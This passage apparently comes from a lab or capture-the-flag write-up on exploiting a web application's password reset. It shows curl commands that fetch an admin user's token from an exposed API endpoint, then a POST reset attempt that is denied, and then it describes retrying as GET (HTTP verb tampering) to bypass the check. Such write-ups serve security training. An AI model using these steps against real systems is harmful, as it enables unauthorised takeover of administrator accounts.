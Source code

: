 
#### Attempting Exploitation

Step 1 – Get token for the admin user:

```bash
[★]$ curl -s "http://<target_ip>:<target_port>/api.php/token/52"
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

Step 2 – Attempt to reset the password:

```bash
[★]$ curl -s "http://<target_ip>:<target_port>/reset.php" -X POST -d "uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=hello"
Access Denied
```

The application blocked a normal POST-based password reset attempt.


### HTTP Verb Tampering

Since POST failed, I considered alternative methods such as **HTTP Verb Tampering**. I retried the request as **GET** instead of POST:

![](screenshots/5.png)
